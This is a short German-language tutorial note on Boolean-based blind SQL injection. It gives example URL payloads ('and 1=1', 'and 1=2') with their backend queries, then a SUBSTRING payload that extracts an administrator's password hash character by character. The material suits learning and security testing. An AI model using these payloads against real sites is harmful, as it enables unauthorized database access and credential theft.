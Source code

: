 Boolen Based Man stellt der Application eine true/false Frage.

# ‌Boolean Based Blind SQL1
## Beispiel
```sql
www.random.com/app.php?id\=1
// Backend
select title from product where id \=1
```
‌
### Payload #1 (FALSE):
```sql
www.random.com/app.php?id\=1 and 1\=2
//backend
select title from product where id \=1 and 1\=2
```

### Payload #2 (TRUE):
```sql
www.random.com/app.php?id\=1 and 1\=1
//backend
select title from product where id \=1 and 1\=1
````

## Beispiel 2
> User Table: Admnistrator / e3c33e889e0e1b62cb...

### Payload :
```sql
www.random.com/app.php?id\=1 and SUBSTRING((SELECT Password FROM Users WHERE Username \= 'Administrator'), 1, 1) \= 's'
Backend:
‌select title from product where id =1 and SUBSTRING((SELECT Password FROM User WHERE Username = 'Administrator'), 1, 1) ='s'
```
- "1, 1)" : Extrahiere das erste Zeichen und nur 1 Zeichen lang.
- "='s'" : Ist es ein 's'?
Wenn kein Output angezeigt wird -> Returned false -> 's' ist nicht das erste Zeichen from hashed Passwort

### Payload :
```sql
www.random.com/app.php?id\=1 and SUBSTRING((SELECT Password FROM Users WHERE Username \= 'Administrator'), 1, 1) \= 'e'
```
-> Titel der id=1 wird angezeigt -> Returned true -> 'e' ist das erste Zeichen vom hashed Passwort





Beispiel
www.random.com/app.php?id\=id\=1

